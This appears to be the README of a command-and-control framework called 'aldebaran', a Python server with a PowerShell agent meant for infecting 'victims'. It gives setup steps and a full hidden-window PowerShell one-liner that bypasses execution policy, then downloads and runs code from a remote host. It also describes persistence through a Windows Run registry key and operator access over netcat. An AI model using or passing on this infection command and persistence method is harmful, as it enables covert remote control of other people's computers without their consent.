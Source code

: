# aldebaran

Python3 C2 server and agent payload.

uses HTTP protocol with check-in. Works in env with powershell constrained language mode.

Agent code can be delivered as in memory only or as is e.g in a hta file.

darma is the server side code in python3

darpa is the agent side code in powershell

# Installation

## Requirements
install requirements with pip3


## Certificates
you will have to create valid https certs.
Self signed certs wont work with powershell. will lose constrainedlanguagemode support to ignore ssl errors so use letsencrypt

use ```certbot certonly --manual -d 220.ip-54-37-16.eu --register-unsafely-without-email ```
and copy certs in "darma/certificates" and adjust config.py to point to them


## Change domain in config.py to match the ones of the certificates

Change payload to point to your server url

## Change password of c2 server
Change bcrpyt hash in "darma/config.py" with

```
#Python3
# To generate hash
# Mind the '\n'
password = b"super secret password\n"
hashed = bcrypt.hashpw(password, bcrypt.gensalt())
print(hashed)
```
## Serverside
To start server:

```
python3 darma/main.py
```
## Victim
run agent on victim


## Attacker machine
connect to server with netcat on port 51251 with attackers machine

```
nc ip_of_server 51251
```

enter password and menu will pop up

## Logging
if deamonized, logging can be found @ ```/var/log/aldebaran.log```

## First infection

run the following command on victim in 'run' (win+r)

```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c "$command = iwr -Uri https://220.ip-54-37-16.eu/ -Method GET  -UseBasicParsing; iex $command"
```


## Persistence

When the victim checks in for the first time, an entry in ```HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``` will be added that downloads the oneliner version of the payload

## TODO
### Install script
